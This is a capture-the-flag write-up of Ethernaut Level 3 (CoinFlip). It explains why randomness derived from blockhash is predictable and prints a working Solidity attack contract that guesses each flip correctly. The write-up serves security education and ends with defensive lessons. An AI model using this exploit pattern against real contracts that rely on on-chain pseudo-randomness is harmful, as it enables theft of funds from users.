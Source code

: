 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/3-coinflip.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 3 - Coinflip</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 3 - CoinFlip](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-03-coinflip)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Goals

<img src="../assets/requirements/3-coinflip-requirements.webp" width="800px"/>

## The hack

Everything in the EVM is deterministic. This means that entropy doesn't exist natively on-chain (you can use third-party solutions like [Chainlink VRF](https://docs.chain.link/vrf/)).
The logic used in the `CoinFlip` contract is only pseudo-random. So we can predict the next flip by using the same logic as the one in the contract.
Once done, we can call the `flip` function with the predicted value and repeat this 10 times to win the level.

## Solution

We can craft a smart contract that reproduces the same logic as the `CoinFlip` contract to predict the next flip and call the `flip` function with the predicted value.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface ICoinFlip {
    function flip(bool) external returns (bool);
}

contract Unflip {
    address immutable coinflip;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _coinflip) {
        coinflip = _coinflip;
    }

    function playToWin() private view returns (bool) {
        uint256 pastBlockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlipResult = pastBlockValue / FACTOR;
        return coinFlipResult == 1 ? true : false;
    }

    function attack() public {
        ICoinFlip(coinflip).flip(playToWin());
    }
}
```

## Takeaway

- Entropy doesn't exist on-chain
- Pseudo-randomness can help for development but not for production
- To read: https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#entropy-illusion

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
